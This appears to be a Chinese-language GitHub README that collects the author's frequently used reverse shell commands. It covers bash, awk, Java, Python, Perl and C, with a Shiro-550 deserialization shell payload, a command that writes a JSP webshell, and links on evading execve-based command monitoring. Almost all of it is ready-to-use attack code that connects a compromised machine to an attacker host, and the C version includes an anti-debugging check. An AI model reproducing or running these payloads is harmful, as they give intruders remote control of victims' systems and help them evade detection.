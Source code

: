 # ReverseShell
自己经常使用的反弹shell命令
## bash
```
bash -c {echo,xxx}|{base64,-d}|{bash,-i}
bash -c "bash -i >& /dev/tcp/ip/port  0>&1"
bash -i 5<>/dev/tcp/host/port 0>&5 1>&5

awk 'BEGIN{s="/inet/tcp/0/ip/port";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
## java
```java
try{
    Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/2333;cat <&5 | while read line; do $line 2>&5 >&5; done"});
}catch (IOException e){
    try{
        Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
    }catch (IOException ee){
    }
}
```
### shiro 550
反弹shell
https://bkfish.gitee.io/2020/04/24/Apache-Shiro-1-2-4%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-4437%EF%BC%89%E5%A4%8D%E7%8E%B0%E9%81%87%E5%88%B0%E7%9A%84%E5%9D%91/


https://mp.weixin.qq.com/s/zCe_O37rdRqgN-Yvlq1FDg

```
cc2 
bash -c bash${IFS}-i${IFS}>&/dev/tcp/XXXXX/XX<&1

```
并且执行命令
```bash
sh -c $@ | sh . echo `echo shell>shell.jsp`
```

## python
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ip",4444))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
## perl
```
perl -e 'use Socket;$i="ip";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## c
来自m3师傅
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>


#include <sys/ptrace.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <sys/socket.h>

__attribute__((constructor)) void debugCheck()
{
    if(ptrace(PTRACE_TRACEME,0,1,0) == -1)
    {
        printf("debug found");
        exit(0);
    }
}

int main(int argc,char** argv)
{
    int status;
    printf("Main Process:%d\n",getpid());

    if(fork() == 0)
    {
        printf("Child Process:%d\n",getpid());
        struct sockaddr_in addr;
        addr.sin_family = AF_INET;
        addr.sin_addr.s_addr = inet_addr("127.0.0.1");
        addr.sin_port = htons(2333);
        int fd = socket(AF_INET,SOCK_STREAM,0);
        if(!connect(fd,(const struct sockaddr *)&addr,sizeof(addr)))
        {
            printf("connect success\n");
        }
        
        dup2(fd,0); 
        dup2(fd,1); 
        dup2(fd,2); 
        char* argv[] = {"/bin/bash",NULL};
        execve("/bin/bash",argv,'\0'); 
    }
    pid_t child_pid = wait(&status);
    printf("Child PID:%d Terminate Status:%d\n",child_pid,WEXITSTATUS(status));

}
```

## 交互式
```
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
```

## 逃逸基于execve的命令监控的反弹shell

https://grugq.github.io/docs/ul_exec.txt

[无"命令"反弹shell-逃逸基于execve的命令监控(上)](https://mp.weixin.qq.com/s/rcPnXJrjcFeAWMnXsyJDPA)

